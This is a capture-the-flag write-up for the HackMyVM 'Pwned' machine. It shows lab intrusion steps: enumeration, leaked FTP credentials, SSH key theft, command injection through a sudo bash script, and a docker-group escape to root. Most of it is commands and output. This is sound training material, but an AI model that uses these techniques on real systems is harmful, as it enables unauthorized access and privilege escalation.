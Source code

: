 ```yaml
---
title: HackMyVM - Pwned
description: My writeup on Pwned box.
categories:
 - HackMyVM
tags: HackMyVM ftp bash docker
---
```


![](https://i.imgur.com/xrT5rc4.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

We start by finding a wordlist we save it and we brute force with it, this gives us FTP creds. FTP provide us the user and her SSH private key. First privesc is about  a bash script function exploitation & the final one is about docker group. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.18
$ nmap -p- --min-rate 10000 $ip 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:51 EEST
Nmap scan report for pwned.zte.com.cn (192.168.1.18)
Host is up (0.00040s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:2D:DE:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
$ nmap -p 21,22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:51 EEST
Nmap scan report for pwned.zte.com.cn (192.168.1.18)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
```

Let's start the enumeration with port 80 with a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/robots.txt (Status: 200)
/nothing (Status: 301)
/server-status (Status: 403)
/hidden_text (Status: 301)
```

`/hidden_text` directory has a file in with a wordlist, let's save it into a .txt and run dirb with it.

```
$ curl http://192.168.1.18/hidden_text/secret.dic | tee wordlist.txt
$ dirb http://$ip/ wordlist.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  1 13:17:42 2020
URL_BASE: http://192.168.1.18/
WORDLIST_FILES: wordlist.txt

-----------------

GENERATED WORDS: 21                                                            

---- Scanning URL: http://192.168.1.18/ ----
+ http://192.168.1.18//pwned.vuln (CODE:301|SIZE:317)               
```

`/pwned.vuln` has a login page but if we check the source code we can detect some ftp creds:

```php
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>
```

## Shell as ariana

Now we can login as `ftpuser:B0ss_B!TcH` on FTP, after we login in let's download all the files:

```
$ ftp $ip
Connected to 192.168.1.18.
220 (vsFTPd 3.0.3)
Name (192.168.1.18:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10 12:47 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09 15:05 id_rsa
-rw-r--r--    1 0        0              75 Jul 09 17:41 note.txt
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
226 Transfer complete.
2602 bytes received in 0.00 secs (3.5756 MB/s)
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (75 bytes).
226 Transfer complete.
75 bytes received in 0.00 secs (85.9650 kB/s)
ftp> exit
```

`note.txt` provide us a username:

```
Wow you are here 

ariana won't happy about this note 

sorry ariana :( 
```

Let's use the ssh private key with user ariana to connect on server:

```
$ chmod 600 id_rsa
$ ssh -i id_rsa ariana@$ip

ariana@pwned:~$ whoami;id
ariana
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as selena

If we run `sudo -l` we can run a bash script file as selena:

```
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

```bash
#!/bin/bash

clear
echo "Welcome to linux.messenger "
		echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
		echo ""
echo "$users"
		echo ""
read -p "Enter username to send message : " name 
		echo ""
read -p "Enter message for $name :" msg
		echo ""
echo "Sending message to $name "

$msg 2> /dev/null

		echo ""
echo "Message sent to $name :) "
		echo ""
```

We can simply exploit the `read` function just by entering the command we want:

```
ariana@pwned:~$ sudo -u selena /home/messenger.sh
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : bash

Enter message for bash :bash

Sending message to bash 
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home/ariana$ whoami;id
selena
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

## Shell as root

Privesc to root is simple, selena is in docker group so we can simply exploit this:

```
selena@pwned:/home/ariana$ groups
selena docker
```

```
selena@pwned:/home/ariana$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags:

```
# cat root.txt | head -1 | cut -c1-10
4d4098d64e
# cat user1.txt | sed -n 5p | cut -c1-10
fb8d98be12
```

Really cool VM! :fire:
